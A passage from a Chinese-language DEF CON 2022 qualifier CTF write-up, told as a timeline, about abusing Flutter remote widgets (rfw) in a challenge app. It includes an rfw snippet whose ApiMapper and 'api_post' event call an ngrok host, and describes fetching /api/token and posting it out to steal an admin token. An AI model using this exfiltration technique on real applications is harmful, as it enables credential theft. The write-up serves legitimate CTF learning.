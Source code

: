 不過做到這步以後又卡關了，因為 ApiMapper 只能送 GET request，沒有辦法 POST，從 source code 裡面也可以證明這點：

![ApiMapper](/img/defcon-2022-qual-writeup/p4.png)

### 21:30(3h 50m) 有其他隊伍解開了

本來想拿 first blood 的，技不如人只好QQ

此時我還在研究 source code，無論是題目的還是 rfw 的都有看一下，看能不能找到更多線索。

### 21:43(4h 03m) 找到其他關鍵

我跟隊友都發現了在 poll widget 裡面有個 `event api_post`，可以拿來送出 POST request，不過觸發的方式不太確定，要試試看。

### 22:22(4h 42m) 成功觸發 event

隊友成功找到了觸發方式：

``` js
Row( 
        children: [
          ApiMapper(
            url: "@example.ngrok.io/json",
            jsonKey: "a",
            dataKey: "a",
            onLoaded: event "api_post" {
              path: "@example.ngrok.io/test",
              body: "bodytest"
            }
          )
        ]
      )
```

我自己其實也有試過一樣的方法，但不知道為什麼沒有成功。

雖然可以發 POST request，可是我們拿不到 response，所以似乎也沒什麼用處。此時又在這邊卡了一陣子。

而我覺得我們應該有忽略什麼重要的細節，才會卡在這邊，不然怎麼看這一步都應該快到結尾了。於是我重新回去玩了一遍 app，看一下有沒有什麼遺漏的地方。

### 22:56(5h 16m) 重回正軌，開始實作 exploit

重新玩了一遍之後果真發現有地方沒注意到，那就是有一個 GET 的 API 是 `/api/token` 可以拿到 token 資料，而用 ApiMapper 拿回來的資料會存在 `data` 裡面，所以可以先用 ApiMapper 拿資料，接著再用 `event "api_post"` 把拿到的資料送出去，就可以獲得 admin token。

概念不難，但難的是實作。在這邊花了一點時間跟隊友分享了一下這個思路，想說大家一起來寫會比較快。

嘗試的過程中發現如果是 ApiMapper 的 onloaded 直接接 `event "api_post"` 的話，好像會拿不到資料，所以需要找其他種方式。這時候就想到了 poll 中出現的 `switch`，應該可以用那一招來做。

話說學習 rfw 的方式是直接看 code，其實註解跟測試寫得都滿詳細的，比文件的資料多很多：https://github.com/flutter/packages/blob/main/packages/rfw/lib/src/dart/text.dart#L479

### 23:19(5h 39m) 失敗的 exploit

我寫了一個我自己覺得怎麼看都會成功的 widget：
